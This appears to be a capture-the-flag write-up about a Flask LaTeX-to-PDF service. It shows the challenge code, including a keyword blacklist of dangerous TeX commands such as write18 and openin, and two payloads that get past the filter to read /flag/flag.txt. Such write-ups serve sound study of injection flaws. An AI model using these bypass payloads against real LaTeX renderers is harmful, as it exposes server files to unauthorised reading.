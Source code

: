 ```python
    r'\\immediate', r'\\csname', r'\\makeatletter', r'\\readline', r'\\uccode', r'\\lccode'
]

def check_for_dangerous_commands(latex_input):
    found_commands = []

    for command in dangerous_commands:
        if re.search(command, latex_input, flags=re.IGNORECASE):
            found_commands.append(command)

    if found_commands:
        raise ValueError(f"Dangerous LaTeX commands found: {', '.join(found_commands)}")

    return latex_input
@app.route('/render', methods=['POST'])
def render_latex():
    try:
        latex_input = request.form['latex']

        check_for_dangerous_commands(latex_input)
        
        tex_file = "output.tex"
        with open(tex_file, "w") as f:
            f.write(TEX_TEMPLATE % latex_input)
        
        subprocess.run(["pdflatex", "-interaction=nonstopmode", tex_file])

        pdf_file = "output.pdf"
        if os.path.exists(pdf_file):
            return send_file(pdf_file, mimetype='application/pdf')
        else:
            return "Error in generating PDF"

    except ValueError as e:
        return str(e), 400
  
    finally:
        files = ["output.tex", "output.pdf", "output.log", "output.aux"]
        for file in files:
            if os.path.exists(file):
                os.remove(file)
```
While I was attempting the challenge, a revenge challenge was released. By diffing the files, we see the blacklist in the revenge is now stricter, triggering as long as any of the keywords exist
```python
dangerous_commands = [
    r'openin', r'newread', r'include', r'usepackage', r'closein', r'newwrite', r'openout',
    r'write', r'closeout', r'write18', r'url', r'read', r'input', r'def', r'\^', r'catcode',
    r'immediate', r'csname', r'makeatletter', r'readline', r'uccode', r'lccode'
]
```
I eventually found a payload from https://book.jorianwoltjer.com/languages/latex#filter-bypass#:~:text=begin{input},end{input} which did not require `\input`, and could bypass the blacklist for the first challenge.
`\begin{input}/flag/flag.txt\end{input}`
For the revenge challenge, I've compiled a list of payloads from the discord
`\begin{inpu\iftrue t\fi}{"/flag/flag.txt"}` by roehrt
